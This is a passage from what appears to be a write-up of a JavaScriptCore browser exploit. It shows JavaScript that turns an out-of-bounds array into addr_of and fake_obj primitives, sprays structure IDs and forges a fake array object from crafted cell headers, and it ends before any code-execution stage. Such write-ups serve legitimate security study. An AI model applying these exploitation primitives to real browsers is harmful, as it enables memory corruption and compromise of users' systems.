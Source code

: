 Once we get the `oob_arr`, for that `obj_arr` is next to the `oob_arr`, so we can build `fake_obj` and `addr_of` primitives directly with `oob_arr`.

```js
// addr_of primitive
function addr_of(obj)
{
    obj_arr[0] = obj;
    return f2i(oob_arr[obj_idx]);
}

// fake_obj primitive
function fake_obj(addr)
{
    val = i2f(addr)
    oob_arr[obj_idx] = val;
    return obj_arr[0];
}
```

After getting the `addr_of` and `fake_obj` primitives, we can finish the exploit easily follow the LiveOverflow's series vedio [Browser Exploitation](https://www.youtube.com/playlist?list=PLhixgUqwRTjwufDsT1ntgOY9yjZgg5H_t):

1. `spray` the `structure id`:

   ```js
   var structure_spray = [];
   // spray the structure id
   for(let i=0; i<0x2000; i++) {
       arr = [13.37];
       arr['prop'] = 13.37;
       arr['prop_'+i] = 13.37;
       structure_spray.push(arr);
   }
   ```

2. build fake object `driver`:

   ```js
   // ArrayWithDouble cell
   var double_cell_header = 0x0108200700000200;
   // 0x00, 0x02, 0x00, 0x00,                // m_structureID (0x00000200)
   // 0x7,                                   // m_indexingTypeAndMisc (ArrayWithDouble)
   // 0x20,                                  // m_type (ArrayType)gu
   // 0x8,                                   // m_flags (OverridesGetOwnPropertySlot)
   // 0x1                                    // m_cellState (DefinitelyWhite)
   
   // ArrayWithContiguous cell
   var contiguous_cell_header = 0x0108200900000200;
   // 0x00, 0x02, 0x00, 0x00,                // m_structureID (0x00000200)
   // 0x9,                                   // m_indexingTypeAndMisc (ArrayWithContiguous)
   // 0x20,                                  // m_type (ArrayType)
   // 0x8,                                   // m_flags (OverridesGetOwnPropertySlot)
   // 0x1                                    // m_cellState (DefinitelyWhite)
   
   // container to store fake driver object
   var container = {
       cell_header: i2f(contiguous_cell_header-0x01000000000000),
       butterfly: victim
   };
   
   var container_addr = addr_of(container);
   var fake_arr_addr = container_addr + 0x10;
   print("[+] fake driver object addr: "+hex(fake_arr_addr));
   var driver = fake_obj(fake_arr_addr);
   ```
